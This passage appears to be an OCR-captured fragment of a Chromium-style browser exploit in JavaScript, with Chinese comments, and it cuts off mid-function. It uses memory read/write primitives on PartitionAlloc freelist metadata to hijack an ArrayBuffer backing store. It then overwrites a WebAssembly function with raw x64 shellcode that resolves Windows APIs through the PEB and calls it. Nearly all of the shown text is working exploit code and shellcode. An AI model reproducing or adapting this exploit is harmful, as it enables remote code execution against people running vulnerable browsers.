 ```JavaScript
	// 修改 DataHolder 的 data_ 和 data_length_
  let dataHolderPtr = read64(freelist, arrayBufferPtr + BigInt(0x8));
  write64(freelist, dataHolderPtr + BigInt(0x8), stubAddr);
  write64(freelist, dataHolderPtr + BigInt(0x10), BigInt(0xFFFFFFF));

  // 用 shellcode 改写 wasmFuncA
  let shellcode = new Uint8Array([
    0x48, 0x31, 0xFF, 0x48, 0xF7, 0xE7, 0x65, 0x48, 0x8B, 0x58,
    0x60, 0x48, 0x8B, 0x5B, 0x18, 0x48, 0x8B, 0x5B, 0x20, 0x48,
    0x8B, 0x1B, 0x48, 0x8B, 0x1B, 0x48, 0x8B, 0x5B, 0x20, 0x49,
    0x89, 0xD8, 0x8B, 0x5B, 0x3C, 0x4C, 0x01, 0xC3, 0x48, 0x31,
    0xC9, 0x66, 0x81, 0xC1, 0xFF, 0x88, 0x48, 0xC1, 0xE9, 0x08,
    0x8B, 0x14, 0x0B, 0x4C, 0x01, 0xC2, 0x4D, 0x31, 0xD2, 0x44,
    0x8B, 0x52, 0x1C, 0x4D, 0x01, 0xC2, 0x4D, 0x31, 0xDB, 0x44,
    0x8B, 0x5A, 0x20, 0x4D, 0x01, 0xC3, 0x4D, 0x31, 0xE4, 0x44,
    0x8B, 0x62, 0x24, 0x4D, 0x01, 0xC4, 0xEB, 0x32, 0x5B, 0x59,
    0x48, 0x31, 0xC0, 0x48, 0x89, 0xE2, 0x51, 0x48, 0x8B, 0x0C,
    0x24, 0x48, 0x31, 0xFF, 0x41, 0x8B, 0x3C, 0x83, 0x4C, 0x01,
    0xC7, 0x48, 0x89, 0xD6, 0xF3, 0xA6, 0x74, 0x05, 0x48, 0xFF,
    0xC0, 0xEB, 0xE6, 0x59, 0x66, 0x41, 0x8B, 0x04, 0x44, 0x41,
    0x8B, 0x04, 0x82, 0x4C, 0x01, 0xC0, 0x53, 0xC3, 0x48, 0x31,
    0xC9, 0x80, 0xC1, 0x07, 0x48, 0xB8, 0x0F, 0xA8, 0x96, 0x91,
    0xBA, 0x87, 0x9A, 0x9C, 0x48, 0xF7, 0xD0, 0x48, 0xC1, 0xE8,
    0x08, 0x50, 0x51, 0xE8, 0xB0, 0xFF, 0xFF, 0xFF, 0x49, 0x89,
    0xC6, 0x48, 0x31, 0xC9, 0x48, 0xF7, 0xE1, 0x50, 0x48, 0xB8,
    0x9C, 0x9E, 0x93, 0x9C, 0xD1, 0x9A, 0x87, 0x9A, 0x48, 0xF7,
    0xD0, 0x50, 0x48, 0x89, 0xE1, 0x48, 0xFF, 0xC2, 0x48, 0x83,
    0xEC, 0x30, 0x66, 0x81, 0xE4, 0xF0, 0xFF, 0x41, 0xFF, 0xD6
  ]);

  let payloadArray = new Uint8Array(audioBuffer.getChannelData(0).buffer);
  payloadArray.set(shellcode, 0);

	// FreeListHead 填 0
  write64(freelist, partitionPagePtr, BigInt(0));

  try {
    wasmFuncA();
  } catch (e) { }
}

```

```JavaScript
function getPartitionPageFreeListHeadEntryBySlotSize(freelist, iirAddr, slot_size) {
  let meta = getPartitionPageMetadataArea(iirAddr);

  let getMetaByPageIndex = function (i) {
    const sizeOfMeta = BigInt(0x20);
    return meta + BigInt(i) * sizeOfMeta;
  }

  const offsetBucket = BigInt(0x10);
  let slot = read64(freelist, meta + offsetBucket);
  const offsetSlotSize = BigInt(0x18);
  const maskSlotSize = BigInt(0xffffffff);
  const offsetActivePage = BigInt(0);
 
  curSlotSize = read64(freelist, slot + offsetSlotSize) & maskSlotSize;
 
  let bucket = undefined;
  let bucket_size = 0;
  let delta = BigInt(0);

```